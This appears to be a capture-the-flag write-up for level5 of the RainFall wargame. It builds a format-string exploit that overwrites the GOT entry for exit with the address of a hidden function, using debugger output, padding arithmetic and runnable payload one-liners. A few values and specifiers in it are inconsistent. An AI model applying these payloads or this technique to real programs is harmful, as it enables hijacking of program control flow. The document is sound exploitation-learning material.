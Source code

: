 ### TIPS

Pour lancer un payload dans gdb

```bash
(gdb) run < <(python -c 'print ("salut" * 5)';)
Starting program: /home/user/level5/level5 < <(python -c 'print ("salut" * 5)';)
salutsalutsalutsalutsalut
```

---

```bash
evel5@RainFall:~$ readelf -s level5 | grep o
Symbol table '.dynsym' contains 10 entries:
     5: 00000000     0 NOTYPE  WEAK   DEFAULT  UND __gmon_start__
Symbol table '.symtab' contains 73 entries:
    31: 08048420     0 FUNC    LOCAL  DEFAULT   13 __do_global_dtors_aux
    32: 0804984c     1 OBJECT  LOCAL  DEFAULT   25 completed.6159
    33: 08049850     4 OBJECT  LOCAL  DEFAULT   25 dtor_idx.6161
    39: 080485a0     0 FUNC    LOCAL  DEFAULT   13 __do_global_ctors_aux
    57: 00000000     0 NOTYPE  WEAK   DEFAULT  UND __gmon_start__
    59: 08049844     0 OBJECT  GLOBAL HIDDEN    24 __dso_handle
    67: 080484a4    30 FUNC    GLOBAL DEFAULT   13 o

```

```bash
(gdb) x o
0x80484a4 <o>:	0x83e58955
```

address of function o: `080484a4` == `\xa4\x84\x04\x08`

```bash
level5@RainFall:~$ objdump -R level5 | grep exit
08049828 R_386_JUMP_SLOT   _exit
08049838 R_386_JUMP_SLOT   exit
```

offset of buffer of printf is `3` --> 4 je crois

---

```bash
level5@RainFall:~$ objdump -R level5 | grep exit
08049828 R_386_JUMP_SLOT   _exit
08049838 R_386_JUMP_SLOT   exit
```

Address of exit is `08049838` == `\x38\x98\x04\x08`

## Payload

value to write = adress of o = `0x080484a4` = `134513828`

Lets do 2 writes

value 1: `0x 0000 84a4` = `33956`
value 2: `0x 0001 0804` = `67588`

cible 1 = `08049838` == `\x38\x98\x04\x08`

cible 2 = cible1 + 2 == `804983A` == `\x3a\x98\x04\x08`

```python
exploit = ""
exploit += "\x38\x98\x04\x08"	//cible1
exploit += "\x3a\x98\x04\x08"	//cible2
exploit += "%33948x"			// padding to get to value 1 (33956 - 8 = 33948)
exploit += "%4$hn"				//write cible 1
exploit += "%33624x"			//paddding to get to value 2 (67588 - 33956 - 8 = 33624)
exploit += "%5$hn"
```

```bash
(python -c 'print ("\x38\x98\x04\x08" + "\x3a\x98\x04\x08" + "%33948x" + "%4$n" + "%33632x" + "%5$n")';cat) | ./level5

run < <(python -c 'print ("\x38\x98\x04\x08" + "\x3a\x98\x04\x08" + "%33948x" + "%4$n" + "%33632x" + "%5$n")';)
```

Needs to overwrite 0x08049838 (exit) with 0x080484a4 (o)

It means writing 0x0804 (2052) at 0x08049838 + 2 = 0x0804983a (high order)
and 0x84a4 (33956) at 0x08049838 (low order)

Now we have to figure out the value to set for the padding: Here is the forumla:
[The value we want] - [The byte already wrote] = [the value to set]

Let's start with the low order bytes :
It'll be 33956 - 8 = 33948, because we already wrote 8 bytes, the two 4 bytes addresses

Then the high order bytes :
It'ill be 2052 - 33956 = -31904 --> 33632 in uint with overflow

No we can construct the exploit
It'ill be : \x38\x98\x04\x08\x3a\x98\x04\x08%33948x%4$hn%33632x%5$hn

    \x38\x98\x04\x08 or 0x08049838 points to the low order of the target adress
    \x3a\x98\x04\x08 or 0x0804983a points to the high order of the target adress
    %33948x will write 33948 bytes of padding
    %4$hn will write 33956 (0x84a4) at address 0x08049838
    %33632x will write 33632 byte of padding
    %5$hn will write 2052 (bc of overflow) at address 0x0804983a

```bash
(python -c 'print ("\x38\x98\x04\x08\x3a\x98\x04\x08%33948x%4$hn%33632x%5$hn")';cat) | ./level5
```

## Second try

Needs to overwrite 0x08049838 (exit) with 0x080484a4 (o)

It means writing 0x0804 (2052) at 0x08049838 + 2 = 0x0804983a (high order)
and 0x84a4 (33956) at 0x08049838 (low order)

Now we have to figure out the value to set for the padding: Here is the forumla:
[The value we want] - [The byte already wrote] = [the value to set]

Let's start with the high order bytes :
It'll be 2052 - 8 = 2044, because we already wrote 8 bytes, the two 4 bytes addresses

Then the low order bytes :
It'ill be 33956 - 2052 = 31904

No we can construct the exploit
It'ill be : \x3a\x98\x04\x08\x38\x98\x04\x08%2044x%4$hn%31904x%5$hn
\x3a\x98\x04\x08 or 0x0804983a points to the high order of the target adress
\x38\x98\x04\x08 or 0x08049838 points to the low order of the target adress
%2044x will write 2044 bytes of padding
%4$hn will write 2052 (0x0804) at address 0x0804983a
    %31904x will write 31904 byte of padding
    %5$hn will write 33956 (0x9838) at address 0x08049838

```bash
(python -c 'print ("\x3a\x98\x04\x08\x38\x98\x04\x08%2044x%4$hn%31904x%5$hn")';cat) | ./level5
```
